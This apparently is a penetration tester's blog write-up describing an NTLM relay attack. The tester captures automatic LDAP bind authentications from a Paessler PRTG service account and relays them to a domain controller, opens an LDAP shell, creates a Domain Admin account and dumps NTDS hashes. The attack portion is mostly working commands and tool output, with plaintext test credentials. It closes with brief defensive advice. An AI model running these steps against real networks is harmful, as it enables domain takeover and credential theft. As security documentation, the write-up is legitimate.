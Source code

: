 ```yaml
---
title: PWNING a DC via Paessler's monitoring system
date: 01/12/2024
tags: [real-life, DC, LDAP]
---
```


<h1> Paessler Monitoring system? </h1>
During a recent engagement, while trying to perform SMB relaying on a potentially vulnerable target, I noticed some hits on my <a href="https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py">ntlmrelayx </a> instance that I did not initiate 🤔

```console
[kali@kali]$ impacket-ntlmrelayx -t 10.10.0.66 -smb2support 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
 
[*] Protocol Client LDAP loaded.. 
[*] Protocol Client LDAPS loaded.. 
[*] Protocol Client SMB loaded.. 
[*] Protocol Client RPC loaded.. 
[*] Protocol Client HTTPS loaded.. 
[*] Protocol Client HTTP loaded.. 
[*] Protocol Client MSSQL loaded.. 
[*] Protocol Client DCSYNC loaded.. 
[*] Protocol Client IMAP loaded.. 
[*] Protocol Client IMAPS loaded.. 
[*] Protocol Client SMTP loaded.. 
[*] Running in relay mode to single host 
[*] Setting up SMB Server on port 445 
[*] Setting up HTTP Server on port 80 
[*] Setting up WCF Server on port 9389 
[*] Setting up RAW Server on port 6666 
[*] Multirelay disabled 
 
[*] Servers started, waiting for connections 
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.0.50, attacking target smb://10.10.0.66 
[*] Authenticating against smb://10.10.0.66 as REDACTED/DEV-DC31$ SUCCEED 
[*] All targets processed!
```
<br>
This could be an indication that there is an automated task that makes machines automatically authenticate to my services on the network. 

To make things easier for me, I decided to check if the DC supports LDAP signing in order to relay this authentication to it and get an LDAP shell, from where we can perform <i>evil stuff</i>. 😈
To do so, we unfortunately need to have a domain account set up. 

<b>This step is not necessary if you don't have creds, but will save you time.</b>

Going to the terminal, I ran <a href="https://www.netexec.wiki/" >Netexec </a> against the DC with the module <b> ldap-checker </b> and saw that LDAP signing was not enforced:

```console
[kali@kali]$ netexec ldap 10.10.0.50 -u pentester -p Y3llow3Fl0wer -M ldap-checker

SMB         10.10.0.50      445    DEV-DC31         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DC31) (domain:REDACTED) (signing:True) (SMBv1:False)
LDAP        10.10.0.50      389    DEV-DC31         [+] REDACTED\pentester:Y3llow3Fl0wer                                              
LDAP-CHE... 10.10.0.50      389    DEV-DC31         LDAP Signing NOT Enforced!                                                                   
LDAP-CHE... 10.10.0.50      389    DEV-DC31         LDAPS Channel Binding is set to "When Supported" 
```
<br>
The next thing to immediately do was to setup ntlmrelayx to relay directly to the DC's LDAP.

```console
[kali@kali]$ impacket-ntlmrelayx -t 10.10.0.50 -smb2support -i
```
<br>
We have speficied the DC with the <b>-t</b> option and used the <b>-i</b> option to establish an interactive LDAP shell.

After a minute or two of waiting, REDACTED/SERVICE.PRTG automatically authenticated and we relayed the connection to the DC's LDAP:

```console
[kali@kali]$ impacket-ntlmrelayx -t ldaps://10.10.0.50 --shadow-credentials -i            
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client LDAP loaded..                                              
[*] Protocol Client LDAPS loaded..                                             
[*] Protocol Client SMB loaded..                                               
[*] Protocol Client RPC loaded..                                               
[*] Protocol Client HTTP loaded..                                              
[*] Protocol Client HTTPS loaded..                                             
[*] Protocol Client MSSQL loaded..                                             
[*] Protocol Client DCSYNC loaded..                                            
[*] Protocol Client IMAPS loaded..                                             
[*] Protocol Client IMAP loaded..                                              
[*] Protocol Client SMTP loaded..                                              
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445                                          
[*] Setting up HTTP Server on port 80                                          
[*] Setting up WCF Server on port 9389                                         
[*] Setting up RAW Server on port 6666                                         
[*] Multirelay disabled                                                        

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.0.50, attacking target ldaps://10.10.0.50                                          
[*] SMBD-Thread-6 (process_request_thread): Received connection from 10.10.0.50, attacking target ldaps://10.10.0.50                                          
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.10.0.138, attacking target ldaps://10.10.0.50                                         
[*] SMBD-Thread-8 (process_request_thread): Received connection from 10.10.0.138, attacking target ldaps://10.10.0.50                                         
[*] Authenticating against ldaps://10.10.0.50 as REDACTED/SERVICE.PRTG SUCCEED
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000 as REDACTED/SERVICE.PRTG
```
<br>
We can see that we have successfully relayed the connection to the DC and have established an interactive LDAP shell locally on port 11000 which we can access via netcat.

Before we do so, why was this attack was possible? 🤔 Even if LDAP signing is disabled, why did <b>SERVICE.PRTG</b> automatically authenticate to our server?

After some digging, we see that SERVICE.PRTG is related to a monitoring tool by <a href="https://www.paessler.com/">Paessler</a>. Paessler provides numerous sensors for network and system monitoring which can be found <a href="https://www.paessler.com/manuals/prtg/list_of_available_sensor_types">here</a>.

Since we are interested in LDAP, we do a quick search on their website and see the the following:

<img src="/assets/img/paessler-ldap-sensor.png">

<br>
The sensor <b>"connects to the server by trying a bind"</b>, which now explains why we were getting random authentications to our SMB and LDAP ntlmrelayx instances.
<br>

<img src="/assets/img/pwn-me.jpg">

<br>
<h1> Easy takeover incoming </h1>
We will connect to the interactive shell with netcat:
```console
[kali@kali]$ nc 127.0.0.1 11000
```
<br>
Inside of the shell, we confirm we are the user <b>SERVICE.PRTG</b> and we proceed to adding a new user to the Domain Administrators group:

```console
# whoami                                                                       
u:REDACTED\service.prtg

# add_user Pentest-User
Attempting to create user in: %s CN=Users,DC=REDACTED,DC=REDACTED
Adding new user with username: Pentest-User and password: c,n3nF["dH[h=&P result: OK

# search Pentest-User
CN=Pentest-User,CN=Users,DC=REDACTED,DC=REDACTED
name: Pentest-User
distinguishedName: CN=Pentest-User,CN=Users,DC=REDACTED,DC=REDACTED
sAMAccountName: Pentest-User
objectSid: S-1-5-21-854245398-1004336348-1801673123-2222

# enable_account Pentest-User
Original userAccountControl: 512
Updated userAccountControl attribute successfully                            

# add_user_to_group Pentest-User "Domain Admins"
Adding user: Pentest-User to group Domain Admins result: OK
```
<br>
The user show now be a Domain Admin, lets quickly confirm that with netexec:
```console
[kali@kali]$ netexec smb DC.txt -u Pentest-User -p 'c,n3nF["dH[h=&P'
SMB         200.200.205.15  445    DEV-DC01         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DC01) (domain:REDACTED) (signing:True) (SMBv1:False)
SMB         10.10.0.108     445    DEV-DC31         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DC31) (domain:REDACTED) (signing:True) (SMBv1:False)
SMB         10.10.0.50      445    DEV-DC31         [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DC31) (domain:REDACTED) (signing:True) (SMBv1:False)
SMB         10.10.0.116     445    DEV-PDC03        [*] Windows Server 2022 Build 20348 x64 (name:DEV-PDC03) (domain:REDACTED) (signing:True) (SMBv1:False)
SMB         200.200.205.15  445    DEV-DC01         [+] REDACTED\Pentest-User:c,n3nF["dH[h=&P (Pwn3d!)
SMB         10.10.0.108     445    DEV-DC31         [+] REDACTED\Pentest-User:c,n3nF["dH[h=&P (Pwn3d!)
SMB         10.10.0.50      445    DEV-DC31         [+] REDACTED\Pentest-User:c,n3nF["dH[h=&P (Pwn3d!)
SMB         10.10.0.116     445    DEV-PDC03        [+] REDACTED\Pentest-User:c,n3nF["dH[h=&P (Pwn3d!)
```
<br>
And just like that we managed to PWN multiple networks! As the grand finale lets dump all the hashes with Impacket's Secretsdump:

```console
[kali@kali]$ impacket-secretsdump REDACTED/Pentest-User:'c,n3nF["dH[h=&P'@10.10.0.50
Impacketv0.12.0-CopyrightFortra,LLCanditsaffiliatedcompanies

[*]ServiceRemoteRegistryisinstoppedstate
[*]StartingserviceRemoteRegistry
[*]TargetsystembootKey:REDACTED
[-]SAMhashesextractionfailed:SMBSessionError:code:0xc00000b1-STATUS_PIPE_CLOSING-Thespecifiednamedpipeisintheclosingstate.
[-]LSAhashesextractionfailed:SMBSessionError:code:0xc00000b1-STATUS_PIPE_CLOSING-Thespecifiednamedpipeisintheclosingstate.
[*]DumpingDomainCredentials(domain\uid:rid:lmhash:nthash)
[*]UsingtheDRSUAPImethodtogetNTDS.DITsecrets

REDACTED\administrator:500:REDACTED:REDACTED:::
Guest:501:REDACTED:REDACTED:::
krbtgt:502:REDACTED:REDACTED:::
REDACTED\InternetUser:1000:REDACTED:REDACTED:::
REDACTED\n.mullen:2120:REDACTED:REDACTED:::
REDACTED\b.brennan:2137:REDACTED:REDACTED:::
REDACTED\info:2145:REDACTED:REDACTED:::
REDACTED\o.jackson:2147:REDACTED:REDACTED:::
REDACTED\a.mcguire:2157:REDACTED:REDACTED:::
REDACTED\b.dawson:2162:REDACTED:REDACTED:::
REDACTED\s.bristow:2164:REDACTED:REDACTED:::
REDACTED\s.campbell:2165:REDACTED:REDACTED:::
REDACTED\q.scott:2166:REDACTED:REDACTED:::
REDACTED\i.sheehy:2170:REDACTED:REDACTED:::
REDACTED\k.coffey:2176:REDACTED:REDACTED:::
REDACTED\s.oconnell:2177:REDACTED:REDACTED:::
REDACTED\m.otoole:2181:REDACTED:REDACTED:::
...
```
<br>
<center> <b> Lo and behold, we have demolished a domain without any credentials. </b></center>
<br>

<h1> Conclusions </h1>
- Enable LDAP signing
- Don't let a service automatically authenticate to any LDAP servers on the network

<h1> Resources </h1>
- [I'm Bringing Back Relaying](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
